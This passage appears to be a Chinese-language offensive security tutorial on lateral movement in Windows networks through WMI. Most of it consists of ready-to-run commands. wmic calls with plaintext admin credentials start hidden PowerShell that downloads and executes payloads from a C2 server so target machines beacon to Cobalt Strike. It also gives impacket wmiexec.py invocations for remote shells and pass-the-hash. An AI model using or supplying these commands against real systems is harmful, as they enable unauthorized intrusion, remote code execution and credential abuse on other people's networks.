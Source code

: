 > ***注意**
> ：分析完信息后，根据已掌握的信息开始横向移动，无论您作何考虑，都需要利用到工具来进行操作，工具可以帮助您无需理解或多或少的知识，您只需读懂README即可，来帮助您获取shell，上传，下载，创建服务等操作，笔者会在此段中罗列部分WMI的工具以及部分命令用作横向移动，并在第三段给出部分实际利用的意见。*
>
> **wmic调用cmd** ***注意** ：以下命令需要管理员权限。*
    
    
    ###向指定IP执行cmd命令
    wmic /node:10.10.0.10 /user:administrator /password:win@123 process call create "cmd.exe /c ipconfig >c:\ip.txt"
    

**wmic上线CS**

> ***注意** ：请注意powershell对于特殊字符的转义，例如“，@，#，$等等。*

  * Scripted Web Delivery

    
    
    wmic /NODE:192.168.8.180 /user:"administrator" /password:"win@123" PROCESS call create "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx:8881/a'))\""
    

选择攻击模块

设置C2的Host以及监听器

在客户机上执行wmic命令，让指定的主机上线CS

  * payload generator

> ***注意** ：测试下载时，可以自行使用Python开启WEB共享服务。*
    
    
    wmic /NODE:192.168.8.179 /user:"administrator" /password:"Aatest" PROCESS call create "powershell -nop -exec bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://192.168.8.191:8000/payload.ps1');\""
    

选择攻击模块

设置监听器，并选择Powershell作为载荷

在客户机上执行wmic命令，让指定机器上线CS

**impacket-wmiexec.py**

> ***注意** ：请按照实际情况选择wmiexec.py的参数。*
    
    
    "注意：根据impacket的版本不同，依赖的python版本也不同，这里笔者使用最新版本impacket，依赖python3。"
    "注意：遇到特殊字符使用\进行转移，例如123@456，转义后：123\@456"
    python3 wmiexec.py  用户名:密码@目标IP
    python3 wmiexec.py  域名/用户名:密码@目标IP    #哈希传递获得shell
    python3 wmiexec.py  域名/用户名:密码@目标IP    "ipconfig"   #执行命令
    python3 wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP    #哈希传递获得shell
    python3 wmiexec.py -hashes LM Hash:NT Hash 域名/用户名@目标IP "ipconfig"   #执行命令
    

使用账号密码远程工作组机器

使用账号密码远程域机器
